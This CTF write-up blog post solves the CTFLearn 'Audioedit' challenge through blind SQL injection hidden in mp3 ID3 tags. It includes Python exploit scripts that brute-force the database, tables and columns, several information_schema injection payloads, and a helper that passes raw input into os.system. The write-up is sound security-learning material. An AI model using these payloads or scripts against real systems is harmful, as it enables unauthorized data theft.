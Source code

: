 ```yaml
---
layout: post
title:  "Audioedit Writeup: CTFLearn"
date:   2020-09-18 16:25:10 +0545
author: machinexa
image: /writeups/assets/images/ctflearn_audioedit_homepage.png
category: Writeups
---
```

<br>
## Description
The CTF was about exploit a terribly insane blind SQLi. I started in the morning,  lost my entire day on simple mistakes, and got really frustrated when doing the challenge. The URL was [https://web.ctflearn.com/audioedit/](https://web.ctflearn.com/audioedit/). I received this challenge at night from my friend Jokr.

### Finding the Injection
As its name suggests, it takes `.mp3` file and edits it. So, we have a file upload which leads to an edit page with a unique generated filename. I tried playing with file upload. Eventually, it leads me to nowhere and I assumed file upload was secure. So, what to do then. Well, it took me some time to realize the file was being fetched from the database. The parameter looked like this: [?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3](https://web.ctflearn.com/audioedit/edit.php?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3)  

Though jokr said SQLi isn't here still I tried SQL injection and injecting a quote, I got error **" Error fetching audio from DB"** which confirmed the vulnerability.

![Error String](/writeups/assets/images/ctflearn_audioedit_errorpage.png)

Trying SQLi for some time again failed me. It wasn't working for some reason (not because of rabbit). Later, injecting " gave me the same error as '  which means it's not vulnerable. I took some caffeine and started thinking where could I find a possible attack vector as I could only upload .mp3. 

Later he gave a hint that SQLi is in Exif metadata. Also, `exiftool` didn't work for the mp3 file, so I had to find something different. The module `python3-mutagen` is a module for adding tags in mp3 which provided `mid3v2` a perfect cmd line script for the situation.

### Knowing the Injection
First, I found the vulnerability by adding ' and " and then confirmed it. `mid3v2 -a "' or '" testing.mp3` is an example of how to inject SQL payload to music tags. I got 0 in author response which indicates condition evaluated to False. Since, running the program, uploading it, and checking the condition is lengthy, I used `Burpsuite` which was my second mistake. Mine frustration slowly increased with time, later I found out it was because I directly edited the request from burp suite and editing a binary is never good idea, prone to mistakes *(which I should never have).*

![Burp Request](/writeups/assets/images/ctflearn_audioedit_burprequest.png)

I tried sending some advanced payloads like `' or 1=1 or '` and `' and 1=1 and '` to see how it behaves. Unfortunately, it was throwing error. Each time I tried something new, it gave an error. One more thing to notice is that sending file content with the same content but entirely different filename caused **File Exist** error to be thrown. 

I tried to make a python3 script to upload the file and directly give me response which cost me around 1-2 hour. Finally i have a script that does automatically does everything, i just have to type the payload. Here's a small portion: 
```python
url = "https://web.ctflearn.com/audioedit/submit_upload.php"
while True:
    s = requests.Session()
    multipart_data = MultipartEncoder(
        fields = {
            'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
        })
    headers = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': multipart_data.content_type
        } 
    def setcmd():
        command = 'mid3v2 -a "' + get_random_string(4) + input("Enter SQLi payload: ") + '" testing.mp3'
        print(command)
        system(command)
    setcmd()
    response = s.post(url, data=multipart_data, headers=headers)
    soup = BeautifulSoup(response.text, 'html.parser')
    for small in soup.find_all('small'):
        print(small)
``` 
<br>
Finally, I found out what I was exploiting was boolean-based blind SQLi. For further confirmation, I did this which I thought would evaluate to true and it did evaluate to true `' and 2=2 or 1=1 or '`

### Exploiting SQLi Blindly 1
The insanity starts here. I DM'ed **Blindhero**, another of my nice mentor/friend for some tips on how to get DBMS, tables... He told me to use `SELECT CASE WHEN` which works on Sqlite3. Unfortunately, it didn't work as it was MySQL. He also said about how to get a database, table, and so on. He constantly helped me debug my payload. Now, i started by very basic information gathering payload `' and 2=2 or (SELECT substr(version(),1,1)=5) or '`  which returned 1 and is equivalent to boolean true. 

Then, moving forward to finding the current database which was not easy but ok. Since it was boolean-based blind doing it by hand would take ages. So, I coded some exploit. Crafting query took time but eventually this `' and 2=2 or (SELECT substr(database(),1,1)='a')` returned true. Here's some of my code with an explanation.
```python
allchar = 'abcdeghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
E = SQLExploit()
while True:
    for i in allchar:
        s = requests.Session()
        E.reset()
        time.sleep(0.2)
        if E.exploitdb(i) == True:
            print("Breaked loop")
            break
        else:
            continue
``` 
<br>
E is an SQLExploit object which I will talk later and tries all the character while the `reset()` function opens the mp3 file again. I ran into a problem where the first query ran successfully while the second error out in a while loop. This again wasted my 10 minutes along with giving me some irritation. Later I fixed it by reopening the file each time I execute the loop. The SQLExploit class looks like this: 
```python
class SQLExploit:
    def __init__(self):
        self.md = ""
        self.hd = ""
        self.text = ""
        self.pos = 1

    def reset(self):
        self.md = MultipartEncoder(
            fields = {
                'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
            }
        )
        self.hd = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': self.md.content_type
        }
    def setcmd(self, character):
        #Finds database
        try:
            command = 'mid3v2 -a "' + get_random_string(5) +   "' and 2=2 or (select substr(database()," + str(self.pos) + ",1)='" + character +"') or '" + '" testing.mp3'
            print(command)
            system(command)
        except Exception as E:
            print(E)
```
<br>
`self.md` and `self.hd` are multipart data and headers respectively. `reset()` opens the mp3 file while `get_random_string(5)` gets random string of length 5 as it name says. `system()` is short of `os.system()` and position is `self.pos` is position of substr. Since, we got 1st postion as 'a', we need to increment it. `self.text` is for storing name of database found.

So, having everything we need let's start the exploit. Also, some part was slightly modified in this code which I won't show as it's not necessary.
Now, let's run the exploit. 

![Database Audioedit](/writeups/assets/images/ctflearn_audioedit_database.png)

<br>
### Exploiting SQLi Blindly 2
Looks nice right? Let's go for a table. I asked him about how to find tables and hinted about information_schema. I created a similar database and table in localhost and came up with this:  
 `(SELECT table_schema, table_name FROM information_schema.tables where table_schema = 'audioedit' and table_name LIKE 'a%' limit 1;)`

Unfortunately, it's hard to include this upper payload in SQLi, and that's why I did the `substr()` method. Also, after debugging my payload and improving it I get:     

`' and 2=2 or (SELECT substr(table_name,1,1) FROM information_schema.tables where table_schema = 'audioedit' limit 1)='h' or '`   
 
I also modified the `setcmd()` function slightly and exploiting gives me `audioedit` which is the same as the database name. Ah, I was tired and irritated. Took some caffeine again and got started. For numbers of columns in that table, querying information schema I used this:   

`' and 2=2 or (SELECT substr(count(*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`  
<br>
So, after running script i know number of columns are 5, now what. After writing another payload to find column it errored out no matter what i used. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
```sql
' and 2=2 or (SELECT substr(column_name,1,1) FROM information_schema.columns where table_name='audioedit' limit 1 OFFSET 1)='a' or '
' and 2=2 or (SELECT((SELECT count(*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
' and 2=2 or (select substr(column_name,1,1)='y' from information_schema.columns where table_name = 'audioedit' limit 1,1) or '
```
<br>
First, I thought limit was blocked as every payload used it. Trying simpler payloads like `' and 2=2 or (select version() like '5%' limit 1) or '` did work. I got to a point when the payload was large, then I added ()  which caused the error. Oh, so spaces are the problem. Why the hell did I use 2=2. Shit. Also, i reduced `get_random_string()` to length of 2. Finally, it worked like a charm and got the first column name, then second, then third... 

![Random Column name](/writeups/assets/images/ctflearn_audioedit_random.png)

I did some SQL magic in some columns one column interesting column was file. I found out the flag was in file `supersecretflagf1le.mp3`. So, I used the file parameter to reference that file, and unfortunately, I didn't get a flag. 

### Audio Editing
Its the final step, setting visualization to a sonogram and editing some other kind of stuff it was printing lof of stuff. Changing each options and trying all combinatins I finally got the flag embedded in the image. Then I submitted the flag and the feeling of exploiting was awesome.

![Random Column name](/writeups/assets/images/ctflearn_audioedit_flag.png)

I used this resource constantly during exploiting SQLi: [SQL Wiki](https://sqlwiki.netspi.com/)


### Takeaway 

* Always check for the length of SQL query you can inject.
* Pay attention to smaller details to prevent error.
* Never edit a binary by hand in Burpsuite. It's prone to errors.


